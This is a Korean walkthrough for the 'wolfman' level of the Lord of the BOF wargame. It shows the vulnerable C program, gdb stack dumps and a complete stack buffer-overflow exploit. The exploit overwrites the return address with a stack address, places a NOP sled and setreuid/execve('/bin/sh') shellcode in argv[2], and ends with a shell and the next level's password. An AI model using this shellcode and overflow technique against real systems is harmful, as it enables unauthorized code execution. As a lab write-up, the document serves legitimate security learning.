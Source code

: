 Orc -> Wolfman

**wolfman.c**
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}
	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
이번에는 buffer hunter가 추가되어 buffer의 값을 전부 0으로 초기화 시켜버립니다. 하지만 저는 argv2를 사용할 것 이기 때문에 상관없습니다.<br>
저번 문제와 똑같은 방법으로 공격을 하면 됩니다.
```
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %ebp,%esp
0x8048503 <main+3>:	sub    %esp,44
~~~생략~~~
0x80485bd <main+189>:	call   0x8048440 <strcpy>
0x80485c2 <main+194>:	add    %esp,8
0x80485c5 <main+197>:	lea    %eax,[%ebp-40]
0x80485c8 <main+200>:	push   %eax
~~~생략~~~
```
buffer의 크기가 40이라는 것을 알 수 있습니다.
>>bufer[40] + SFP[4] + RET[4]

이번에도 strcpy부분에 break를 걸고 분석을 해보겠습니다.
```
(gdb) r `python -c 'print "\xbf"*48'` `python -c 'print "\x90"*100'`
Starting program: /home/orc/temp/wolfman `python -c 'print "\xbf"*48'` `python -c 'print "\x90"*100'`

Breakpoint 1, 0x80485bd in main ()
(gdb) x/100x $esp
~~~생략~~~
0xbffffc04:	0x772f706d	0x6d666c6f	0xbf006e61	0xbfbfbfbf
0xbffffc14:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf
0xbffffc24:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf
0xbffffc34:	0xbfbfbfbf	0xbfbfbfbf	0x00bfbfbf	0x90909090
0xbffffc44:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc54:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc64:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc74:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc84:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc94:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffca4:	0x00000000	0x00000000	0x00000000	0x00000000
~~~생략~~~
```
이번에는 0xbffffc54 주소로 공격을 해보도록 하겠습니다. 
```
[orc@localhost temp]$ ./wolfman `python -c 'print "\x90"*44 + "\x54\xfc\xff\xbf"'` `python -c 'print "\x90"*100 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc1\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
T
Segmentation fault (core dumped)
```
엥 core dumped가 떴습니다. 이유는 바로 bash2를 까먹었기 때문이었습니다.<br>
bash2를 띄우고 다시 공격을 해서 core파일을 분석해보도록 하겠습니다.
```
[orc@localhost temp]$ gdb -c core
~~~생략~~~
Core was generated by `./wolfman AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 񠐐'.
Program terminated with signal 11, Segmentation fault.
#0  0x40030942 in ?? ()
(gdb) x/1000x $esp
~~~생략~~~
0xbffffba8:	0x6c6f772f	0x6e616d66	0x41414100	0x41414141
0xbffffbb8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbc8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbd8:	0x41414141	0xfffc0041	0x909000bf	0x90909090
0xbffffbe8:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffbf8:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc08:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc18:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc28:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc38:	0x90909090	0x90909090	0x90909090	0xc0319090
~~~생략~~~
```
core dumped가 뜨면 자동으로 core파일이 생성이 됩니다.

`ulimit –c unlimited`

다음 명령어로 core파일을 생성시킬 수 있습니다.<br>
0xbffffbe8의 주소로 공격을 하겠습니다.

```
[orc@localhost orc]$ ./wolfman `python -c 'print "A"*44 + "\xe8\xfb\xff\xbf"'` `python -c 'print "\x90"*100 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc1\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA鼿¿
bash$ my-pass
euid = 505
love eyuna
```
공격에 성공했습니다.<br>
모든 공격은 복사한 파일에 해서 성공을 하면 원본 파일에 시도를 하는 것 입니다. <br>
복사한 파일에 공격을 시도하여 성공하는 부분은 생략하도록 하겠습니다.